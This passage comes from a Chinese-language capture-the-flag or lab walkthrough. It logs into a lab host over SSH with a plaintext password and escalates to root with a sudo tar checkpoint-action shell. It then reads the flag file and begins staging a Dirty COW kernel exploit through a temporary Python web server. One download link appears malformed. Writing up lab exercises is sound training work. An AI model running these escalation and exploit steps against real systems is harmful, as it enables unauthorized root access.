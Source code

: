 在kali终端进行登录

```
ssh zico@192.168.81.142
密码为：sWfCsfJSPV9H3AmQzw8
```

![image-20220316094940334](https://gitee.com/xxb667/img/raw/master/img/image-20220316094940334.png)

发现用户具备sudo权限

```
sudo -l
```

![image-20220316095104548](https://gitee.com/xxb667/img/raw/master/img/image-20220316095104548.png)

使用tar提权，获得root权限，获得flag文件

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![image-20220316095317819](https://gitee.com/xxb667/img/raw/master/img/image-20220316095317819.png)

查找flag.txt文件

```
find / -name flag.txt
```

```
/root/flag.txt
```

![image-20220316095830631](https://gitee.com/xxb667/img/raw/master/img/image-20220316095830631.png)

打开flag.txt文件

```
cat /root/flag.txt
```

![image-20220316100027997](https://gitee.com/xxb667/img/raw/master/img/image-20220316100027997.png)



## 4.2-2 把payload上传到目标机器

下载dirty.c文件

```
https://gitee.com.com/FireFart/dirtycow/archive/refs/heads/raw/master.zip
```

然后把文件复制到kali里面

#### 开启临时服务器

- 将40838.c文件复制到当前目录下
- 并且利用 python2 -m SimpleHTTPServer 1234 
- 开启临时的建议服务器
